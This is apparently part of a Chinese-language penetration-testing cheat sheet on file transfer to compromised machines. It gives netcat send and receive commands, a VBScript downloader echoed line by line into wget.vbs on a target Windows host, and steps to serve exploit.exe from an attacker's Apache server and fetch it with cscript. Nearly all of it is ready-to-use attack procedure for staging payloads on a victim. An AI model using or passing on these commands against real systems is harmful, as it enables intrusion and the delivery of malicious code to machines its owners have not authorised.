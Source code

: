 **nc**
```bash
# 收
nc -nvlp 4444 > aaa
```
```bash
# 发
nc -nv 192.168.30.35 4444 </usr/share/aaa    # kali
```

### Win

**文章**
- [Windows文件下载执行的15种姿势](https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA)

**vbscript**

```vb
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

攻击端起 http 服务
```bash
cp exploit.exe /var/www/
service apache2 start
```

在目标机执行 vb 命令,会生成 wget.vbs
```bash
dir wget.vbs
cscript wget.vbs http://<kali-ip>/exploit.exe (要下载的文件)exploit.exe(保存成的文件名)
```
